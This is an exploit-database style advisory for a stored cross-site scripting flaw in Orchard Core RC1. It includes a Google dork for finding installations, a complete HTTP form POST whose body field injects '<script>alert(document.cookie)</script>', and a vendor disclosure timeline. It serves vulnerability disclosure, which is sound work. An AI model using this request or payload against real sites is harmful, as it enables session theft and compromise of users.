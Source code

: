 # Exploit Title: Orchard Core RC1 - Persistent Cross-Site Scripting
# Google Dork: "Orchardcms"
# Date: 2020-05-07
# Exploit Author: SunCSR (Sun* Cyber Security Research)
# Vendor Homepage: http://www.orchardcore.net/
# Software Link: https://github.com/OrchardCMS/OrchardCore
# Version: RC1
# Tested on: Windows
# CVE : N/A

### Vulnerability : Persistent Cross-Site Scripting

###Describe the bug
Persistent Cross-site scripting (Stored XSS) vulnerabilities in Orchard CMS - Orchard Core RC1 allow remote attackers to inject arbitrary web script or HTML
via create or edit blog content.

###To Reproduce
Steps to reproduce the behavior:
POST /Admin/Contents/ContentTypes/BlogPost/Create HTTP/1.1
-----------------------------31063090348194141451329743365
Content-Disposition: form-data; name="ListPart.ContainerId"

4s5x3fv3qpsh7rwzvy069ykbxn
-----------------------------31063090348194141451329743365
Content-Disposition: form-data; name="TitlePart.Title"

Test XSS
-----------------------------31063090348194141451329743365
Content-Disposition: form-data; name="AutoroutePart.Path"


-----------------------------31063090348194141451329743365
Content-Disposition: form-data; name="BlogPost.Subtitle.Text"


-----------------------------31063090348194141451329743365
Content-Disposition: form-data; name="MarkdownBodyPart.Source"

<script>alert(document.cookie)</script>
-----------------------------31063090348194141451329743365
Content-Disposition: form-data; name="submit.Publish"

submit.Publish
-----------------------------31063090348194141451329743365
Content-Disposition: form-data; name="__RequestVerificationToken"

xxx
-----------------------------31063090348194141451329743365--

###Reference:
https://github.com/OrchardCMS/OrchardCore/issues/5802

### History
=============
2020-03-23  Issue discovered
2020-03-27  Vendor contacted
2020-04-22  Vendor response and hotfix
2020-04-22  Vendor set patch milestone to rc2
